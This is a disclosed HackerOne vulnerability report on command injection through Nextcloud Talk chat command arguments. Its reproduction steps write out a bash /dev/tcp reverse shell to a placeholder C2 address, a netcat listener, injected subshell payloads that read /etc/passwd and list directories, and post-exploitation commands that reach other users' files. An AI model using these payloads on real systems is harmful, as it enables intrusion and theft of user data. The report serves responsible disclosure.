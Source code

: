 # Code injection possible with malformed Nextcloud Talk chat commands

## Report Details
- **Report ID**: 851807
- **URL**: https://hackerone.com/reports/851807
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-16T20:44:33.101Z
- **Disclosed**: 2020-06-02T14:54:13.000Z

## Reporter
- **Username**: covert-spectre
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary
The Nextcloud Talk app allows system administrators to setup chat commands that can be executed in Talk using the "/command" syntax. Users can provide additional arguments to the commands, such as "/calc 1+1" or "/wiki Hello", which are passed to the underlying script using `@exec`. If arguments are accepted, it is possible to trigger arbitrary code by wrapping the code in bash subcommand syntax `/wiki test $(mycommand)`. This allows for arbitrary code execution, which an actor can use to spawn a reverse shell back from the remote machine.

## Links
- https://nextcloud-talk.readthedocs.io/en/latest/commands/#chat-commands
- https://github.com/nextcloud/spreed/issues/1566
- https://github.com/nextcloud/spreed/blob/384f39ded1dceab58491555744bd5326f8ff1e3f/lib/Chat/Command/ShellExecutor.php#L103

## Severity
This bug has been filed with a severity of `Critical` inline with the bounty impact/definition chart and the Nextcloud Threat Model as the bug allows both remote code execution via a non-admin user as well as access of complete user data of any other user. 

## Affected Versions
All versions that support Talk Commands appear to be affected as the bug is in the `@execute` command. 
The following version were tested: 
- master-2020-04-15 via `snap install nextcloud --edge`, `occ.status versionstring: 19.0.0 beta 2`
- 17.0.5snap1 via `snap install nextcloud`, `occ.status versionstring: 17.0.5`

## Repro Steps
1. Install and Setup Nextcloud
   1. create Ubuntu 18.04 VM
   2. install Nextcloud Server (Nextcloud Hub snap used for this test `snap install nextcloud --edge`)
   3. run install command: `nextcloud.manual-install "admin" "password"`
   4. generate self signed certificate `nextcloud.enable-https self-signed`
   5. set trusted domains `nextcloud.occ config:system:set trusted_domains 1 --value=<domain/ip>`
   6. create user `alice`
   7. install and enable spreed/talk app
   8. enable sample talk commands `nextcloud.occ talk:command:add-samples`
   9. add calculator command as described in the [documentation here](https://nextcloud-talk.readthedocs.io/en/latest/commands/#create-pathtocalcsh)

2. Setup C2 VM
   1. kali used for this test, can be any host with netcat `nc`
   2. run nc listener `nc -l -p 8888`
3. Create Shell Script > shell.sh
   > This script can be anything that gets executed and returns a shell
   > In this case, a simple reverse shell is initiated using bash interactive piping to /dev/tcp
   > A php web shell, meterpreter binary or any other executable could be uploaded here
   ```
   bash -i >& /dev/tcp/<c2-ip-here>/8888 0>&1 &
   ```
4. Log In As Alice and Upload File
   1. upload above shell.sh to root directory of alice's Nexcloud files

5. With Alice, start a Talk Conversation

6. Test Exploitability:
    > Note, all commands appear to get successfully executed, however whether output is shown depends on the implementation of the backing script. For example, /wiki cannot show the results of `cat /etc/passwd` because the multiline output breaks the wiki script, but the [calculator sample](https://nextcloud-talk.readthedocs.io/en/latest/commands/#create-pathtocalcsh) can show the output because it has an echo command in the scrpt. 
    ```
    /wiki test $(id)
    /wiki test $(pwd)
    /wiki test $(ls -al .)
    /calc test $(cat /etc/passwd)
    /calc test $(ls -al ../)
    ```

7. Execute Reverse Shell
   1. Locate uploaded shell script 
      1. For nextcloud snap, the data directory is defined [here](https://github.com/nextcloud/nextcloud-snap#where-is-my-stuff)
      2. File locations are fixed, therefore, once the root directory is known, it is easy to derive the location of the script
      3. Can use `/calc test $(ls ../)` to explore directory structure
   2. Enable execution of the script
   3. Execute the script
    ```
    /wiki test $(chmod +x /var/snap/nextcloud/common/nextcloud/data/alice/files/shell.sh)
    /wiki test $(bash /var/snap/nextcloud/common/nextcloud/data/alice/files/shell.sh)
    ```

8. Observer C2 Listener for Connection

9. Run Commands via C2
    ```
    id 
    pwd
    cd /var/snap/nextcloud/common/nextcloud/data/admin/files
    ls -al
    occ status
    ```

## Attachments
See attached screenshots

## Impact

- Complete access to all user files
- Shell access to occ
- Shell access to host machine - root access if Nextcloud is running as root

## Attachments
- 2._alice-files.png
- 1._install.png
- 3._output-ls.png
- 4._output-passwd.png
- 5._reverse-shell.png
